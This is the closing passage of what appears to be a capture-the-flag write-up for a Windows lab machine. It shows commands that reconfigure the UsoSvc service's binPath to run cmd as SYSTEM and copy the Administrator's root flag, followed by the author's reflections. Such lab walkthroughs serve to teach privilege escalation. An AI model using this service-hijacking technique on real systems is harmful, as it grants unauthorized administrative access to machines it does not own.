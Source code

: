     The service has not been started.


    C:\windows\system32\inetsrv>sc config UsoSvc binPath="cmd /c type C:\Users\Administrator\Desktop\root.txt > C:\a.txt"
    sc config UsoSvc binPath="cmd /c type C:\Users\Administrator\Desktop\root.txt > C:\a.txt"
    [SC] ChangeServiceConfig SUCCESS

    C:\windows\system32\inetsrv>sc.exe start UsoSvc
    sc.exe start UsoSvc
    [SC] StartService FAILED 1053:

    The service did not respond to the start or control request in a timely fashion.

We can now get the root flag.

    :::text
    C:\windows\system32\inetsrv>type C:\a.txt
    type C:\a.txt
    66f9b552d94ea7c55919dc1bfbaff7e1

# Wrapping up

This box was supposed to be easy. Clearly the root part took me way too long. My
metasploit was outdated and doesn't had the post module for TeamViewer. And
after getting the TeamViewer credentials I really tried to connect using the
solution.

Nevertheless the box was really interesting.

